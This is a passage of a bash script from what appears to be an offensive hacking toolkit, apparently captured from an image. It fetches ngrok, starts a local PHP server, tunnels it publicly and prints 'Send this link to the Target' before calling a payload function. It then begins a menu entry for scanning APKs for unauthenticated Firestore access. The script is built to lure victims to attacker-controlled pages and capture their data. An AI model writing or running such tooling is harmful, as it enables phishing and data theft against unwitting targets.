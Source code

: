   if [[ -e ngrok-stable-linux-arm.zip ]]; then
  unzip ngrok-stable-linux-arm.zip > /dev/null 2>&1
  chmod +x ngrok
  rm -rf ngrok-stable-linux-arm.zip
  else
  echo -e "${m}[!] Download error... Termux?Nethunter?, run: pkg install wget${n}"
  exit 1
  fi

  else
  wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-386.zip > /dev/null 2>&1
  if [[ -e ngrok-stable-linux-386.zip ]]; then
  unzip ngrok-stable-linux-386.zip > /dev/null 2>&1
  chmod +x ngrok
  rm -rf ngrok-stable-linux-386.zip
  else
  echo -e "${m}[!] Download error...${n} "
  exit 1
  fi
  fi
  fi

  echo -e "${lh} [*] Starting php server...${n}"
  php -S 127.0.0.1:3333 > /dev/null 2>&1 &
  sleep 2
  echo -e "${lh} [*] Starting ngrok server...${n}"
  ./ngrok http 3333 > /dev/null 2>&1 &
  sleep 10

  link=$(curl -s -N http://127.0.0.1:4040/api/tunnels | grep -o "https://[0-9a-z-]*\.ngrok.io")
  echo -e "${lb} [*] Send this link to the Target:${n}" $link

  payload_ngrok
  checkfound
  }

  loli() {
  ngrok_server
  sleep 1
  clear
  loli

  }
  dependencies
  loli



elif [[ $select == 15 ]]; then
  clear
  function fire() {
    banner
    echo -e "${m}   FireStore Vulnerability${n}"
  }
  fire
  echo -e "${lh}
  1.Scanning APK Without Authentication
  ${n}"
  read -p "senpai@tegalsec:~# " select
  if [[ $select == 1 ]]; then
